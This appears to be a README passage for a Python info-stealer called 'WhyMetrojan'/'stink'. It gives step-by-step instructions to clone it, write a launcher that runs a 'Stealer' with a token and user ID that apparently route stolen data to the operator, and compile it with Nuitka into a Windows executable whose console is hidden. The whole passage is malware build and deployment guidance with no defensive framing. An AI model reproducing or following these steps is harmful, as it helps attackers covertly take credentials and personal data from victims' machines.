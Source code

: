 ### Creating executable file

1. git clone https://github.com/GL4D1AT0R/WhyMetrojan.git
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer

if __name__ == '__main__':
    Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the requirements:
```
pip install -r requirements.txt
```
6. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
7. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
8. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
